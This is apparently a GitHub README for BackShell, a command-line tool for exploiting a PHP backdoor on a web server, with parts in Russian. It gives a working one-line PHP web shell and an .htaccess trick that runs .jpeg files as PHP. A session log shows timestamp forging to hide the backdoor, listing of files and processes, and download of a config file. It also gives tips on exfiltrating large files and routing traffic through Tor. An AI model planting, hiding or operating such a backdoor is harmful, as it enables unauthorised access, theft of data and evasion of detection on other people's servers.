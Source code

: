 # BackShell by tz4678

[![Downloads](https://pepy.tech/badge/backshell)](https://pepy.tech/project/backshell)
[![Downloads](https://pepy.tech/badge/backshell/month)](https://pepy.tech/project/backshell)
[![Downloads](https://pepy.tech/badge/backshell/week)](https://pepy.tech/project/backshell)

Command-line tool for backdoor exploitation.

```zsh
$ pip install backshell

$ backshell 'https://vuln.com/path/to/backdoor.php'
 ____             _     ____  _          _ _
| __ )  __ _  ___| | __/ ___|| |__   ___| | |
|  _ \ / _` |/ __| |/ /\___ \| '_ \ / _ \ | |
| |_) | (_| | (__|   <  ___) | | | |  __/ | |
|____/ \__,_|\___|_|\_\|____/|_| |_|\___|_|_|
v0.1.1 by tz4678

Type 'help' for more information.
backshell> touch -a -m -t 201705030100.12 backdoor.php

backshell> ls -lah
total 36K
drwxr-xr-x  5 <vanished> <vanished> 4.0K Aug  4 00:26 .
drwxr-xr-x 18 <vanished> <vanished> 4.0K Jan 17  2018 ..
-rw-r--r--  1 <vanished> <vanished>  533 May  3  2017 .jshintrc
-rw-r--r--  1 <vanished> <vanished> 2.7K May  3  2017 Gruntfile.js
-rw-r--r--  1 <vanished> <vanished>   47 May  3  2017 backdoor.php
drwxr-xr-x  4 <vanished> <vanished> 4.0K May  3  2017 images
drwxr-xr-x  4 <vanished> <vanished> 4.0K May  3  2017 js
-rw-r--r--  1 <vanished> <vanished>  466 May  3  2017 package.json
drwxr-xr-x  2 <vanished> <vanished> 4.0K May  3  2017 resource

backshell> ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
<vanished>  786766  0.1  0.0 382984 24116 ?        Ss   00:45   0:00 lsphp
<vanished>  787446  0.0  0.0 383416 10240 ?        Ss   00:46   0:00 <vanished>
<vanished>  787447  0.0  0.0   9776  1140 ?        S    00:46   0:00 sh -c ps -aux 2>&1
<vanished>  787448  0.0  0.0  49836  1652 ?        R    00:46   0:00 ps -aux

backshell> exit
```

Backdoor example:

```php
<?php @passthru(base64_decode($_REQUEST['c']));
```

Base64 нужен для обхода `magic_quotes_gpc = On`, который до сих пор много где включен, а так же для работы с бинарными данными в Node.js и т.п.

Такой простой бекдор, конечно, быстро спалят.

`.htaccess`:

```htaccess
AddType application/x-httpd-php .jpeg
```

Теперь файлы с расширением `.jpeg` будут выполняться как php.

## Examples

```zsh
# Help
backshell> help

# Download file from server
backshell> download config.php
Saved as XXXX.config.php

# Upload file to server
backshell> upload script.php

# Edit file on server
backshell> edit index.php
```

## Ограничения

Так как каждый раз запускается новая сессия шелл, то такие команды как `cd` работают не так как ожидается:

```zsh
backshell> cd /tmp; echo $PWD
/tmp

backshell> pwd
/path/to/backdoor
```

Решения:

- При запуске backshell указывать аргумент `--cwd`;
- Использовать команду шелла `cwd`.

Так же не будут работать интерактивные команды типа `less` и др.

Ограничение на длинну команды:

```zsh
$ getconf ARG_MAX
2097152
```

Чтобы скачать файл большого размера либо каталог, упакуйте его с помощью tar, переместите его в ассеты и выкачайте архив curl/wget.

Вызов команды edit при работе через torify приводит к ошибке:

```zsh
1596550567 WARNING torsocks[373221]: [syscall] Unsupported syscall number 217. Denying the call (in tsocks_syscall() at syscall.c:567)
```

Это баг torsocks и хз когда его исправят.
